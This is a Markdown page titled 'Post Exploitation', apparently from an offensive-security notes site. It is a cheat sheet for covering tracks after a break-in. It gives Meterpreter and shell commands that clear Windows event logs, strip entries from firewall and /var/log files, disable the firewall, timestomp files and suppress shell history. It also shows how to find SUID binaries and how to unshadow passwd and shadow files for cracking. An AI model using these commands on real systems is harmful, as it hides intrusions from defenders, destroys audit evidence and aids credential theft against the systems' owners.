 +++
Title = "Post Exploitation"
weight = 3
+++

## Covering Tracks

* Potential Windows logged locations
	* Windows Event Logs
		* System
		* Application
		* Security
	* Application Logs
		* Such as SQL error or IIS Server logs if you exploited a specific application
	* Windows Firewall Logs
	* WMI Trace Logs
	* Prefetch
	* Microsoft Error Debugger Mechanism
		* Can create a memory dump when a program crashes
		* XP: Dr. Watson
		* Vista+: Windows Error Reporting
* Potential *Nix logged locations
	* /var/log
	* .bash_history
		* Normally does not get wrote until the shell is closed out
	* utmp, wtmp, btmp
		* Binary, cannot be edited without custom tools
	* Core debugging
		* Run "ulimit -c" to determine if it's enabled
		* /core

## Windows

### Meterpreter

```
run event_manager -l <log> -f <event ID>
run event_manager -c <log>
run event_manager -I
```

#### Clean firewall log

```
run multicommand -cl "findstr \"<string>\" c:\\windows\\system32\\logfiles\\firewall\\pfirewall.log"
run multicommand -cl "cmd /c findstr /V \"<string>\" c:\\windows\\pfirewall.log > c:\\windows\\temp\\log.tmp"
ps -U <user> (Look for logon.scr to indicated screensaver is running)
run multicommand -cl "netsh firewall set opmode disable"
run multicommand -cl "cmd /c type log.tmp | find /c /v \"\"" (Get line count)
run multicommand -cl "cmd /c more log.tmp +<above result - 1>" (Get last entry)
run multicommand -cl "cmd /c move c:\\windows\\temp\\log.tmp c:\\windows\\system32\\logfiles\\firewall\\pfirewall.log"
timestomp -m "MM/DD/YYYY HH:MM:SS" c:\\windows\\system32\\logfiles\\firewall\\pfirewall.log
run multicommand -cl "netsh firewall set opmode enable"
```

#### Find crash dumps

```
run multicommand -cl "cmd /c dir c:\\*.*dmp /S /A"
```

#### List directory contents, oldest to newest write time

```
run multicommand -cl "cmd /c dir /A /od /tw"
```

#### Get logs from last 30 minutes

```
run multicommand -cl "cmd /c psloglist.exe -m 30 <logname> /accepteula"
```

## *Nix

```
find /var/log -type f -mmin -30 2> /dev/null
```

### Prevent shell history

```
unset HISTFILE
```

### Clean plain text logs

```
grep -v "<string>" /var/log/<file> > /tmp/log.clean
cp /tmp/log.clean /var/log/<file> (Copying preserves permissions!)
touch -t YYYYMMDDHHMM.SS <file>
rm -rf /tmp/log.clean
```

### Find all logs with your IP

```
find /var/log -type f -exec grep 'ip' /dev/null {} +
```

### View cron jobs

```
for i in `find /etc/cron* -type f | cut -d":" -f 1`; do echo; echo "==========$i=========="; ls -l "$i"; cat -n "$i" 2>&1;done
```

### Files & File System

#### Find all SUID files

```
find / -perm -4000 2>/dev/null
```

## Password Cracking

### John

```
unshadow passwd shadow > unshadowed.txt
```

### Backup files

```
/etc/passwd-
/etc/shadow-
```
